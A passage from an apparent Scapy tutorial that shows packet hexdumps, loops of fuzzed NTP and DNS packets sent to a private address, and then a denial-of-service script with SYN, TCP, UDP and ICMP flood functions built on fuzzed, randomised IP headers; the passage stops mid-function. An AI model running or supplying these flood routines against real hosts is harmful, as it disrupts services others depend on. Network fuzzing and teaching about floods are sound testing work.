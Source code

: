 A very useful function  is [hexdump()](https://pypi.python.org/pypi/hexdump), which can be used to display one or more packets using classic hexdump format:

```
from scapy.all import *
str(IP())
a = Ether()/IP(dst="www.google.com")/TCP()/"GET /index.html HTTP/1.1"
hexdump(a)
```

Running this snippet gives:
```sh
$ sudo python example_hexdump.py
WARNING: No route found for IPv6 destination :: (no default route?)
0000   00 90 A9 A3 F1 46 A4 17  31 E9 B3 27 08 00 45 00   .....F..1..'..E.
0010   00 40 00 01 00 00 40 06  8D 0F C0 A8 01 72 4A 7D   .@....@......rJ}
0020   E1 10 00 14 00 50 00 00  00 00 00 00 00 00 50 02   .....P........P.
0030   20 00 FA 15 00 00 47 45  54 20 2F 69 6E 64 65 78    .....GET /index
0040   2E 68 74 6D 6C 20 48 54  54 50 2F 31 2E 31         .html HTTP/1.1
```



###  Fuzzing

Scapy's [fuzz()](http://www.secdev.org/projects/scapy/doc/usage.html#fuzzing) method allows one to craft fuzzing templates (by changing default values by random ones) and send them in a loop.

For example, we can have a standard IP layer with the UDP and NTP layers being fuzzed (but with the correct checksums). Below, the UDP destination port is overloaded by NTP and the NTP version is forced to be 4:

```python
>>> send(IP(dst="192.168.1.114")/fuzz(UDP()/NTP(version=4)), loop=1)
................^C
Sent 16 packets.
```

Here is a DNS fuzzer:

```python
>>> send(IP(dst='192.168.1.114')/UDP()/fuzz(DNS()), inter=1,loop=1)
```

We can use fuzzers for something more interesting. For example to craft a [DDOS](http://en.wikipedia.org/wiki/Denial-of-service_attack) script. This is a very simple example I have in my repository:

```python
import threading
import socket
from scapy.all import *

def synFlood(target, port):
    ip = fuzz(IP(dst=target))
    syn = fuzz(TCP(dport=port, flags='S'))
    send(ip/syn, verbose=0)

def tcpFlood(target, port):
    ip = fuzz(IP(dst=target))
    tcp = fuzz(TCP(dport=port))
    send(ip/tcp, verbose=0)

def udpFlood(target, port):
    ip = fuzz(IP(dst=target))
    udp = fuzz(UDP(dport=port))
    send(ip/udp, verbose=0)

def icmpFlood(target):
    ip = fuzz(IP(dst=target))
    icmp = fuzz(ICMP())
```